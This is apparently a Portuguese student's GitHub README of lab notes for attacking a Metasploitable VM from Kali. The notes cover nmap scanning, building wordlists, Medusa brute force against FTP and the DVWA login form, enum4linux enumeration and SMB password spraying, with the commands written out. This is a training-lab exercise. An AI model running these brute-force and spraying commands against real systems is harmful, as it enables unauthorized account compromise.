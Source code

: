 # mysite
meu primeiro repositório
2 Maquinas 
Kali Linux IP 192.168.56.103

Metasploide 192.168.56.102

ping  -c 3 192.168.56.102( ip do meta no caso o alvo)

Foco FTP

Descobrir qual serviço está disponível pela porta Enumeração

nmap -sV -p 20,21,22,80,445,139 192.168.56.102

Conferir 
ftp 192.168.56.102

Ativo, porem pede nome de usuário e senha e não sabemos – DESCOBRIR

Ataque de força bruta

Criar lista de usuário e senha

Criando lista de usuário
echo -e “user\nmsfadmin\nadmin\nusuario\nbrasil\neu\ncadastro\nsoueu > users.txt

Criando lista de senhas
echo -e “123456\npassword\nmsfadmin\n123\n010101\n010203\nmamae\nsabara\npass111” > pass.txt

Rodando ataque com Medusa

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6

Vamos conferir
ftp 192.168.56.102

Ataque formulário Web
DVWA 

192.168.56.102/dvwa/login.php

Alvo: 192.168.56.102

Lista de usuários: users.txt
Lista de senhas: pass.txt

Ataque com Medusa

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE:’/dvwa/login.php’ \
-m FORM:’ username=^USER^&password=^PASS^&Login=login’ \
-m ‘FAIL=Login failed’ -t 678

enum4linux -a 192.168.56.102 | tee enum4_output.txt
“echo -e “user\nmsfadmin\nadmin\nusuario\nbrasil\neu\ncadastro\nsoueu\nservice\nAdmin\nusuario\nhelp” > smb_users.txt
Echo -e “password\n123456\nWelcome123\nmsfadmin” > senhas_spray.txt

Agora vamos atacar
medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50



